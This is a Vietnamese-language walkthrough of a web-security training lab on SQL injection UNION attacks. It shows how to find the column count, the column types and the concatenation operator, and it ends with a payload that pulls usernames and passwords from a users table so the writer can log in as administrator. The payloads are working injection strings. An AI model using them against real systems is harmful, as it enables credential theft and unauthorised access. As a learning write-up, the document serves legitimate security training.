 # **Lab: SQL injection UNION attack, retrieving multiple values in a single column**

>  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.  
 The database contains a different table called `users`, with columns called `username` and `password`.  
  To solve the lab, perform a SQL injection UNION attack that retrieves all `usernames` and `passwords`, and use the information to log in as the `administrator` user.

  # **Solution**
  Nhìn qua trang mục tiêu ta thấy nội dung chính có tên sản phẩm và button `View details`  

  Bước đầu vẫn là xác định số cột và kiểu dữ liệu của mỗi cột đó.

  ```
  https://0aea00e3039510e381b9df4e003100ee.web-security-academy.net/
  ```
  Chèn thêm vào tham số bộ lọc qua URL:
  
  ```
  ' UNION SELECT NULL, NULL -- 
  ```

  Thành công xác định số cột là 2. Tiếp theo là kiểu dữ liệu:

```
# 1
' UNION SELECT NULL, 'a' -- 
```

```
# 2
' UNION SELECT 'a', 'a' --
```

```
# 3
' UNION SELECT 1, 'a' --
```

Thử cả 3 case trên thì ta thấy 1 và 3 Pass, 2 Error. Từ đó ta suy ra được cột đầu kiểu dữ liệu số, cột 2 kiểu dữ liệu kí tự và chỉ có thể thấy cột 2 hiển thị rõ trên trang mục tiêu.

Cần thực hiện toán tử nối chuỗi trong câu select của union để khai thác dữ liệu.

Do có sự khác biệt trong toán tử nối chuỗi của các kiểu cơ sở dữ liệu khác nhau nên ta cần thêm một bước xác định loại cơ sở dữ liệu mục tiêu dùng. Hoặc cũng có thể thử lần lượt các kiểu toán tử nối chuỗi khác nhau cho tới khi thành công=)))

```
' UNION SELECT NULL, 'a' || ' done' --
```

Well. Cách này thành công nên || sẽ là toán tử nối chuỗi mà chúng ta dùng lần này.

Như nhiệm vụ được giao thì ta biết có một bảng `users` gồm 2 cột `username` và `password`. Sửa đoạn mã như sau:

```
' UNION SELECT NULL, username || '~~' || password FROM users --
```

Done~~. Tiếp theo đó chỉ cần dùng thông tin đăng nhập `administrator` để dăng nhập là xong goyyy~~~~

![image](https://i.pinimg.com/236x/ca/82/52/ca825243bc9c405a9cac886925a3d12f.jpg)